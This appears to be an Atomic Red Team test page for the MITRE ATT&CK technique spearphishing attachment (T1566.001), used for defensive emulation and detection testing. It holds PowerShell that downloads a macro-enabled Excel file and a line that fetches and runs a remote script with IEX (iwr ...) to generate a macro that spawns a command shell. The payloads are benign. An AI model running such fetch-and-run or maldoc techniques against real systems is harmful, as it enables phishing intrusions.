 # T1566.001 - Spearphishing Attachment
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1566/001)
<blockquote>Adversaries may send spearphishing emails with a malicious attachment in an attempt to gain access to victim systems. Spearphishing attachment is a specific variant of spearphishing. Spearphishing attachment is different from other forms of spearphishing in that it employs the use of malware attached to an email. All forms of spearphishing are electronically delivered social engineering targeted at a specific individual, company, or industry. In this scenario, adversaries attach a file to the spearphishing email and usually rely upon [User Execution](https://attack.mitre.org/techniques/T1204) to gain execution.

There are many options for the attachment such as Microsoft Office documents, executables, PDFs, or archived files. Upon opening the attachment (and potentially clicking past protections), the adversary's payload exploits a vulnerability or directly executes on the user's system. The text of the spearphishing email usually tries to give a plausible reason why the file should be opened, and may explain how to bypass system protections in order to do so. The email may also contain instructions on how to decrypt an attachment, such as a zip file password, in order to evade email boundary defenses. Adversaries frequently manipulate file extensions and icons in order to make attached executables appear to be document files, or files exploiting one application appear to be a file for a different one.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Download Phishing Attachment - VBScript](#atomic-test-1---download-phishing-attachment---vbscript)

- [Atomic Test #2 - Word spawned a command shell and used an IP address in the command line](#atomic-test-2---word-spawned-a-command-shell-and-used-an-ip-address-in-the-command-line)


<br/>

## Atomic Test #1 - Download Phishing Attachment - VBScript
The macro-enabled Excel file contains VBScript which opens your default web browser and opens it to [google.com](http://google.com).
The below will successfully download the macro-enabled Excel file to the current location.

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
if (-not(Test-Path HKLM:SOFTWARE\Classes\Excel.Application)){
  return 'Please install Microsoft Excel before running this test.'
}
else{
  $url = 'https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1566.001/bin/PhishingAttachment.xlsm'
  $fileName = 'PhishingAttachment.xlsm'
  New-Item -Type File -Force -Path $fileName | out-null
  $wc = New-Object System.Net.WebClient
  $wc.Encoding = [System.Text.Encoding]::UTF8
  [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
  ($wc.DownloadString("$url")) | Out-File $fileName
}
```






<br/>
<br/>

## Atomic Test #2 - Word spawned a command shell and used an IP address in the command line
Word spawning a command prompt then running a command with an IP address in the command line is an indiciator of malicious activity.
Upon execution, CMD will be lauchned and ping 8.8.8.8

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| jse_path | Path for the macro to write out the "malicious" .jse file | String | C:&#92;Users&#92;Public&#92;art.jse|
| ms_product | Maldoc application Word or Excel | String | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"ping 8.8.8.8`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
```

#### Cleanup Commands:
```powershell
Remove-Item #{jse_path} -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 } 
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
